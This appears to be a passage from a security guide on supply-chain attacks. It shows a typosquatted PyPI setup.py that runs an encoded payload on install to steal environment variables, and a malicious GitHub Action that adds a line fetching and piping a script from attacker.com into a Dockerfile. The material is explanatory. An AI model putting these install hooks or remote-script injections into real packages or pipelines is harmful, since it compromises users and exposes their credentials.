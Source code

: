 **Real Example - PyPI Attack (October 2025):**

```python
# Malicious package: "reqeusts" (typo of "requests")
# setup.py
import os
import base64

def post_install():
    # Exfiltrate environment variables
    payload = base64.b64decode("aW1wb3J0IHNvY2tldDtpbXBvcnQgb3M7...")
    exec(payload)

# Runs during pip install
post_install()
```

**Impact:**
- 4,200 Docker images deployed with backdoored package
- Exfiltrated 12,000+ AWS credentials from environment variables
- Detected after 42 days

**3. CI/CD Pipeline Compromise (GitHub Actions)**

**Malicious Workflow:**

```yaml
name: Build and Deploy
on: [push]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      
      # MALICIOUS: Backdoored action
      - uses: attacker/build-action@v1  # Looks legitimate
        with:
          registry: ${{ secrets.DOCKER_REGISTRY }}
      
      # Malicious action injects backdoor into built image
      - name: Build Docker image
        run: docker build -t myapp:latest .
```

**Backdoored Action (attacker/build-action):**

```javascript
// action.yml
const core = require('@actions/core');
const exec = require('@actions/exec');

async function run() {
  // Inject backdoor into Dockerfile before build
  const maliciousLayer = `RUN wget https://attacker.com/c2.sh | sh`;
  const dockerfile = fs.readFileSync('Dockerfile', 'utf8');
  fs.writeFileSync('Dockerfile', dockerfile + '\\n' + maliciousLayer);
  
  // Execute original build
  await exec.exec('docker', ['build', '-t', 'myapp:latest', '.']);
}

run();
```

---